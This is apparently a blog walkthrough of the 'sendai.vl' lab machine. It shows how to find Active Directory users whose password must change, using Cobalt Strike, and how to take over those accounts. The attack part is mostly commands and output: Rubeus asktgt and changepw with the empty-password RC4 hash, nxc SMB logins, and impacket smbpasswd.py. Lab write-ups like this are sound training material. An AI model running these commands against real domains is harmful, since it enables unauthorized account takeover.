

## Entry
It will be short but i will try to explain as i can


### ➜ Enumerate /w Cobalt Strike
So now we can diff for example with some users each other.

* Thomas.Powell -> password has to change

* Dorothy.Jones -> random user


For Thomas.Powell there is not password **SET** yet. We can also check with try to create token so it will work.

| Cobalt Strike Feature                      | Will Show `STATUS_PASSWORD_MUST_CHANGE`? | How                                                                                                             |
| ------------------------------------------ | ---------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| `make_token`                               | ✅ **Yes**                                | Error shows in Cobalt Strike console output.                                                                    |
| `spawnas`                                  | ✅ **Yes**                                | May fail silently or with an error like `The user's password must be changed before logging on the first time.` |
| `jump psexec`                              | ✅ **Yes**                                | Error in log: `STATUS_PASSWORD_MUST_CHANGE (0xC0000224)`                                                        |
| `runas` in aggressor                       | ✅ **Yes**                                | Error shows if trying to spawn Beacon.                                                                          |
| Pass-the-Hash or Kerberos ticket injection | ❌ **Not directly**                       | Doesn’t use actual password, bypasses logon.                                                                    |

### ➜ Attack /w Cobalt Strike

How we can change password?


> The most important part here u have to use RC4 hash for this user otherwise it wont work.
{: .prompt-tip }

Comamnd to execute
```sh
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /domain:sendai.vl /user:Thomas.Powell /changepw /rc4:31d6cfe0d16ae931b73c59d7e0c089c0 /ptt /outfile:ticket-thomas.kirbi
```


We can request a ticket for this user now we can change his pass.

#### Fail
Now we can change his pass
Comamnd to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe changepw /ticket:ticket-thomas.kirbi /new:Password123! /targetuser:sendai.vl\Thomas.Powell
```


hmm so that’s the error i got this time?it says blah blah blah and strings DC. so i have mention the ip of the dc of domain

#### BOOMMM!!

Command to execute
```sh
execute-assembly /home/elliot/tools/Rubeus.exe changepw /ticket:ticket-thomas.kirbi /new:Password123! /dc:DC.sendai.vl
```


Now its work!!
```sh
➜  sendai nxc smb DC.sendai.vl -u 'Thomas.Powell' -p 'Password123!'                  
SMB         10.10.83.239    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.83.239    445    DC               [+] sendai.vl\Thomas.Powell:Password123! 
```

### ➜ Linux Abuse

It will be easy to do it with impacket-tools which is not merged ever (idk why xD)

```sh
➜  sendai nxc smb DC.sendai.vl -u 'Thomas.Powell' -p ''                            
SMB         10.10.83.239    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.83.239    445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
```

and we can use [smbpasswd.py](https://github.com/snovvcrash/impacket/blob/smbpasswd/examples/smbpasswd.py) for this

```sh
➜  sendai python3 smbpasswd.py  'Elliot.Yates:@sendai.vl' -newpass Password123!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```
